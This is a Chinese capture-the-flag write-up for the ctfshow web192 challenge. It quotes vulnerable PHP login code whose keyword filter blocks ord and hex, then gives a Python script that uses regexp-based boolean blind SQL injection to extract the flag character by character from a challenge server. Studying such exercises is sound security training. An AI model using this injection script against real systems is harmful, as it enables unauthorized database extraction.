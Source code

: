 ## web192~regexp正则布尔盲注

> 查询语句
>
> ```
>   //拼接sql语句查找指定ID用户
>   $sql = "select pass from ctfshow_user where username = '{$username}'";
>       
> ```
>
> 返回逻辑
>
> ```
>   //密码检测
>   if(!is_numeric($password)){
>     $ret['msg']='密码只能为数字';
>     die(json_encode($ret));
>   }
> 
>   //密码判断
>   if($row['pass']==$password){
>       $ret['msg']='登陆成功';
>     }
> 
>   //TODO:感觉少了个啥，奇怪
>     if(preg_match('/file|into|ascii|ord|hex/i', $username)){
>         $ret['msg']='用户名非法';
>         die(json_encode($ret));
>     }
> 
>       
> ```

又增加过滤了`ord`、`hex` ，根据过滤内容，上关还可以用`hex` 。

我们可以使用正则匹配 `regexp`

```python
# Author: yanmie

import requests

url = "http://59005239-92ca-42fd-ac7a-4d41b67b2e55.chall.ctf.show/api/"
flag = "{abcdefghijklmnopqrstuvwxyz0123456789-}"

# 查询字段中内容
def get_dump():
    payload = "0'or((substr((select group_concat(f1ag) from ctfshow_fl0g),{},1))regexp('{}'))='1"
    i = 0
    dump = ""
    while True:
        i += 1
        for j in flag:
            data = {
                "username": payload.format(i, j),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            # +print(i,j,data)
            if "密码错误" in response.json()['msg']:
                dump += j
                print(dump)
                if "}" in dump:
                    return dump
```